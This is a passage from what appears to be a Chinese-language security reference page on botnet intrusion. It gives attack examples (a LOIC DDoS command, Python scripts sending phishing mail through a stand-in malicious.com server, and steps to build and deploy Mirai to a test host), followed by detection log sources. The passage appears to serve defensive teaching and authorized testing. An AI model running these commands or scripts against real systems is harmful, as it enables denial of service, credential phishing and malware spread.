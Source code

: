     ```bash
    # 使用LOIC模拟DDoS
    loic <target_url> -method HTTP -threads 100
    ```
  - **钓鱼分发**：通过受感染主机发送钓鱼邮件。
    ```python
    import smtplib
    from email.mime.text import MIMEText
    msg = MIMEText("Click here: http://malicious.com")
    msg['Subject'] = 'Urgent: Account Verification'
    msg['From'] = 'attacker@malicious.com'
    msg['To'] = 'victim@target.com'
    with smtplib.SMTP('smtp.malicious.com') as server:
        server.login('user', 'pass')
        server.send_message(msg)
    ```
- **案例场景**：
  - 攻击者通过Mirai感染未修补的IoT设备，组建僵尸网络，发起DDoS攻击瘫痪目标网站。
  - 使用Emotet感染Windows主机，分发钓鱼邮件，窃取员工凭据。

## 检测日志
僵尸网络入侵活动多发生在目标组织监测范围之外，难以直接监测。以下是可能的日志来源：
- **网络流量日志**：
  - 检测与已知C2服务器的异常通信，如高频HTTP、IRC或DNS流量。
- **DNS日志**：
  - 记录解析到C2服务器的异常域名查询。
- **邮件服务器日志**：
  - 监控大规模钓鱼邮件，可能由僵尸网络分发。
- **端点日志**：
  - 记录受感染主机的异常行为，如未知进程、持久化机制或网络连接。
- **防火墙/IDS日志**：
  - 检测DDoS攻击的高流量模式或异常C2通信。

## 测试复现
以下是在受控授权环境中模拟僵尸网络入侵的步骤：
1. **环境准备**：
   - 搭建测试环境，包括虚拟机（模拟受感染主机）和C2服务器（如AWS EC2）。
   - 配置测试主机，模拟弱点（如未修补的系统或默认凭据）。
2. **恶意软件传播**：
   - 使用Mirai感染测试主机：
     ```bash
     git clone https://github.com/jgamblin/Mirai-Source-Code
     cd Mirai-Source-Code
     ./build.sh
     # 部署到测试主机
     ./mirai -s <TEST_HOST_IP>
     ```
   - 发送钓鱼邮件分发恶意附件：
     ```python
     import smtplib
     from email.mime.text import MIMEText
     from email.mime.multipart import MIMEMultipart
     from email.mime.base import MIMEBase
     from email import encoders
     msg = MIMEMultipart()
     msg['Subject'] = 'Urgent: Invoice Update'
     msg['From'] = 'attacker@malicious.com'
     msg['To'] = 'victim@test.com'
     part = MIMEBase('application', 'octet-stream')
